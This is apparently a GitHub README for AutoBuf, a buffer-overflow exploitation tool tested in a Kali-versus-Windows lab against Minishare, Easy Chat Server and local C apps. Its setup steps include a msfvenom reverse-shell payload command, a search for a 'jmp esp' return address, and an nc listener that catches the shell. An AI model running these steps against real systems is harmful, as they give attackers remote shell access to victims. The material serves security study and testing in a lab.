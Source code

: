 # AutoBuf
This project tests applications for buffer-overflow vulnerabilities. Tested with two local C apps, Minishare remote application, Easy share application.

INSTALLATIONS AND TOOLS
1. Windows 10/11(Victim Machine)
2. Kali Linux over VirtualBox(Attack Machine)
3. Immunity Debugger(On Victim Machine)
4. Python 3.8
5. Pwntools
6. Gnu Debugger
7. Minishare 3.4
8. Easy Chat Server 1.4.1

CONFIGURATION AND SETTING UP(IMMUNITY DEBUGGER)
1. Open Immunity Debugger as administrator on windows
2. Open Minishare 1.4.1 as admin on windows
3. Attach Minishare to Immunity Debugger
4. View Executable Modules, find SHELL32.dll and double click
5. Find ‘jmp esp’ command address and take note of it
6. Open Kali linux
7. Find your kali ip address
8. Run(msfvenom -p windows/shell_reverse_tcp LHOST=#ipaddress LPORT=4444 x86/shikata_ga_nai -b “\x00\x0a\x0d” -f py) in your kali machine to generate reverse shell for your ip and port
9. Open BufAutoDetext, 
* Input the result of the above command as the new value for the ‘buf’ variable.
* Input  the address gotten from ‘jmp esp’ in reverse into the shellcode
10. Run BufAutoDetect.py and open a new terminal to listen on port 4444

RUNNING AND TESTING LOCAL APPS
1. Start and load up kali linux in the Virtual Box.
2. Open the new Kali Linux terminal and navigate to the base folder for AutoBuf.
3. Compile C apps with... gcc app.c/app1.c -o app/app1 -fno-stack-protector -no-pie
4. Run the command...python3 BufAutoDetect.py local -p n, then add directory to C apps
5. Payloads include n,an,l

RUNNING AND TESTING MINISHARE REMOTE APPS
1. Start Kali Linux on the attack machine and minishare on the victim machine.
2.  Open the new Kali Linux terminal and navigate to the base folder for AutoBuf.
3. Run the command...python3 BufAutoDetect.py remote1 -ip #ipaddressofwindows -s #portofMinishare
4. Then open a new terminal and listen to the output of the script using ...nc -l -p 4444

RUNNING AND TESTING EASYCHAT SERVER REMOTE APPS
1. Start Kali Linux on the attack machine and easy chatserver on the victim machine.
2.  Open the new Kali Linux terminal and navigate to the base folder for AutoBuf.
3. Run the command...python3 BufAutoDetect.py remote2 -ip #ipaddressofwindows -s #portofEasychatserver
4. Calc.exe runs as easychat is overflowed





Video demonstration and Pictures coming soon









